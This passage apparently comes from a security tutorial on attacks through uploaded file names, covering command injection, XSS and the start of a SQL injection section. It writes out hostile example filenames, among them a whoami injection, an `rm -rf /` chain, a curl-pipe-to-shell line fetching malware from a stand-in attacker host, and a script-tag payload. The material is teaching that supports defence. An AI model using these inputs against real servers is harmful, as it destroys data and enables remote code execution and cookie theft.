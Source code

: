 These filenames contain **injected commands** (like `$(whoami)` or backticks with `whoami`), which are a common way to run OS commands on Unix-like systems.

When the server executes the **mv** command, it might mistakenly treat the injected part of the file name as an OS command, and execute it. The result would be the attacker gaining information about the current user or running arbitrary commands on the server.

For example:
- `file$(whoami).jpg` could result in:
  ```bash
  mv file$(whoami).jpg /tmp
  ```
  If executed, this could run the `whoami` command, and the server might output something like `root` if the server is running with root privileges, which gives the attacker useful information.

#### **How this leads to RCE**:
If the attacker can inject more dangerous commands like:
- `file.jpg; rm -rf /` or
- `file.jpg && curl http://malicious-server.com/malware.sh | sh`

Then they can execute commands that might lead to **Remote Code Execution (RCE)** on the server.

---

#### **File Name and XSS (Cross-Site Scripting)**
If the application reflects the file name back to the user without sanitizing it, attackers can inject **JavaScript payloads** into the file name. This can lead to **XSS attacks** if the file name is displayed in an HTML page, like in an image caption or a link.

##### **Example: XSS via File Name**
Suppose the application displays the file name after uploading, such as:
```html
<p>File uploaded: file.jpg</p>
```
If the attacker uploads a file with a malicious name like:
- `file.jpg<script>alert(window.origin);</script>`

This would result in:
```html
<p>File uploaded: file.jpg<script>alert(window.origin);</script></p>
```
When the page is rendered, the script gets executed, and the attacker can execute arbitrary JavaScript on the victim's browser.

##### **How this can be dangerous**:
XSS can allow an attacker to steal session cookies, redirect the user to a malicious website, or perform other malicious actions in the context of the victim's session.

---

#### **File Name and SQL Injection**
Sometimes, the file name is used directly in **SQL queries** without proper sanitization. If the file name is inserted into an SQL query, an attacker might inject malicious SQL commands, potentially leading to **SQL injection** vulnerabilities.

